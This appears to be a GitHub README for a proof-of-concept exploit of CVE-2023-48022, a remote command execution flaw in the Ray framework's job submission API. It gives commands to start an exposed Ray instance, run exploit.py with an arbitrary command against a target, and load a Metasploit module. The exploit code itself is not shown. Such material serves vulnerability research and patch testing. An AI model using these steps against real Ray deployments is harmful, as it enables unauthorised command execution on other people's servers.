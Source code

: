 # PoC for a remote command execution vulnerability in Ray framework

The Ray framework, an essential tool for Python-based AI and machine learning applications, has encountered a significant security challenge. In essence, Ray is like a Swiss Army knife for people working on AI and big data projects. Identified as CVE-2023-48022, this vulnerability specifically impacts the job submission API. The official description states that this flaw allows a remote attacker to execute arbitrary code, posing a considerable risk to systems utilizing these versions of Ray. This vulnerability's discovery has underscored the importance of robust security protocols in software frameworks, especially those integral to AI and ML projects with vast data and computational power.

## Usage

First, install Ray:
```bash
pip3 install -U "ray[default]"
```
Then, start Ray:
```bash
ray start --head --dashboard-host=0.0.0.0
```
Run the Python exploit:
```bash
python3 exploit.py --host http://10.0.2.15:8265 --cmd '<cmd>'
```
## Metasploit module
Copy the Ruby file to Metasploit's related folder:
```bash
cp ray_job_rce.rb /usr/share/metasploit-framework/modules/exploits/multi/misc/
```
Launch Metasploit with `msfconsole` and relad modules with `reload_all` if you can't find the added one.
You can select with `use exploit/multi/misc/ray_job_rce`.
Set the necessary options (`RHOST`, `RPORT`, `COMMAND`, etc.) and run the exploit with the command `exploit`.

## Disclaimer
This exploit script has been created solely for research and the development of effective defensive techniques. It is not intended to be used for any malicious or unauthorized activities. The script's author and owner disclaim any responsibility or liability for any misuse or damage caused by this software. Just so you know, users are urged to use this software responsibly and only by applicable laws and regulations. Use responsibly.
